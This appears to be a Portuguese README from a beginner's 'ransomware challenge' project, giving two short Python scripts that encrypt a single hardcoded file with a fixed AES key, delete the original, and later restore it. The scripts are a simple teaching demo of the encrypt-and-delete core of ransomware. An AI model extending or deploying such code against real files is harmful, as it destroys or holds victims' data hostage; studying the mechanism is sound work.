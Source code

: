 # Desafio de Ransomware com Python

## Ferramentas Utilizadas
- **Python 3**
- **Biblioteca pyaes** (para AES simétrico)
- **Kali Linux** (ou qualquer distribuição Linux)

## Instalação
Antes de executar o código, instale a biblioteca necessária:
```bash
pip3 install pyaes
```

## Encriptando o Arquivo
### Código `encrypter.py`
```python
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "Desafio.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomware"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
```

## Decriptando o Arquivo
### Código `decrypter.py`
```python
import os
import pyaes

## abrir o arquivo criptografado
file_name = "Desafio.txt.ransomware"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "Desafio.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
```

## Executando o Projeto
![image](https://github.com/user-attachments/assets/772d889a-d027-4d10-91ca-958eae2f7c55)


---

